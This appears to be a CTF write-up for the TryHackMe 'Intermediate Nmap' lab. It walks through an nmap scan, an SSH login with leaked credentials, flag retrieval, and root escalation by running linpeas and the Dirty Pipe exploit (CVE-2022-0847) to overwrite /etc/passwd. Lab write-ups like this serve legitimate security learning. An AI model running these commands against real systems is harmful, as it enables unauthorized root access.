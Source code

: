 # write-up - Intermediate-Nmap
The website tryhackme is a ctf website. It proposes us some boxes to attack and to get flag out of it.

The challenge called Intermediate Nmap is an easy and short challenge (can be done in less than five minute) but we can still learn from it.

In this write up I am gonna go further and get the PE to root.

## Scanning
The scanning will be done with nmap (yes 4 real).

The parameters of nmap will be
```
-A -p- <ip>
```
-A = scan all the versions, will be very help full

-p-= try all the ports (why u may ask, “is listening in the high port” the box says)

Here is the output of this command

![image](https://user-images.githubusercontent.com/48420953/191597272-b581d8a9-5a44-4dcd-8cc4-1900b8e0d8ee.png)

We can already see a user and a password. (Have I already told u, it is an easy and short box).

We can also see that the ssh is the only port opened port and X11 belongs to ssh(graphical)

## Connect into the machine

Let’s try to connect to the machine with ssh
```
ssh ubuntu@10.10.29.157 -p 22
```
The pw is required

And we are in

![image](https://user-images.githubusercontent.com/48420953/191597765-9d037880-2fc7-4bc4-8de2-a77cba9e0786.png)

## Finding the Flag

So now, let’s go to the / of the machine and let’s find where the flag is.
```
cd
```
We can go in the home dir and ls to see all the users.
```
cd home
ls
```

it will return us this

![image](https://user-images.githubusercontent.com/48420953/191598281-bcc0953e-b28d-42e6-aaf5-f0b2eb8694e8.png)

Let’s go in user and ls, we will find flag.txt, let’s cat it

![image](https://user-images.githubusercontent.com/48420953/191598440-9cf136b1-2838-4a8c-8b8a-e80d1f9ca8f0.png)

And we have the working flag.

But this challenge is so short that I need at least to get the PE.

## Getting the PE

We gonna scp [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) in the ubuntu’s user dir.

```
scp linpeas.sh ubuntu@<ip>:/home/ubuntu
```

It is done, get back in the ubuntu dir
```
cd /home/ubuntu
```

Give the execution properties to the linpeas script
```
chmod +x linpeas.sh
```

and execute the script

```
./linpeas.sh
```

We can already see a CVE

![image](https://user-images.githubusercontent.com/48420953/191599448-22e10f01-3244-48c6-a03f-cf5556b46628.png)

The [CVE-2022-0847](https://github.com/Al1ex/CVE-2022-0847) is a PE CVE

We just have to compilate the c script and execute it in the machine.

First we scp the script in the ubuntu's dir.

```
scp CVE-2022-0847.c ubuntu@<ip>:/home/ubuntu
```

In the Machine, we must compilate it
```
gcc CVE-2022-0847.c -o cve
```

Now it execute it
```
./cve /etc/passwd 1 ootz:
```

we just need to switch user to rootz and we are good
```
su rootz
whoami
```

here is the proof

![image](https://user-images.githubusercontent.com/48420953/191600373-d994a7e4-a497-4463-b0c3-097bfb479281.png)
